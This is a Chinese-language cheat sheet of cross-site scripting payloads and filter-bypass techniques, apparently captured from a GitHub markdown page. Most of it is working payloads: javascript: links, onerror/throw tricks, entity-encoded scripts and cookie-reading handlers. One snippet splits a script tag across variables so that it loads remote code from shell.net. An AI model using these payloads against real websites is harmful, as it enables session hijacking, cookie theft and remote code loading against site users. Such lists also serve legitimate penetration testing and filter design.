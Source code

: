 - javascript伪协议

  ```
  <a href="javascript:alert(/test/)">xss</a>
  <iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe框架标签
  ```

- 畸形payload：```<IMG """><SCRIPT>alert("XSS")</SCRIPT>">```

- /的妙用：```<script>alert(/3/)</script>```

- 括号被过滤,可以使用throw来抛出数据

  `<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>`

  `<img src=x onerror="javascript:window.onerror=alert;throw 1">`

  以上两个测试向量在 Chrome 和 IE 上会出现一个 "uncaught" 错误，可以用下面的向量代替（下面向量在FireFox上测试失败）

  `<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>`

- 当=();:被过滤时:`<svg><script>alert&#40/1/&#41</script>`opera 中可以不闭合 `<svg><script>alert&#40 1&#41` // Opera可查

- 过滤某些关键字（如：javascript） 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用`<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>`时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b; 拼凑法：① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点`<scri<!-- 第二处-->pt>`;

- 无法使用href:

  ```
  <a onmouseover="alert(document.cookie)">xxs link</a>
  在chrome下，其回补全缺失的引号。因此，也可以这样写：
  <a onmouseover=alert(document.cookie)>xxs link</a>
  ```


   - 解决限制字符(要求同页面)

     ```javascript
     <script>z=’document.’</script>
     <script>z=z+’write(“‘</script>
     <script>z=z+’<script’</script>
     <script>z=z+’ src=ht’</script>
     <script>z=z+’tp://ww’</script>
     <script>z=z+’w.shell’</script>
     <script>z=z+’.net/1.’</script>
     <script>z=z+’js></sc’</script>
     <script>z=z+’ript>”)’</script>
     <script>eval_r(z)</script>
     ```

     ​

   - 编码：

     - JS函数（如eval，settimeout）还有就是`href= action= formaction= location= on*= name= background= poster= src= code=`这些地方，可以配合编码。此外，data属性可以base64编码。

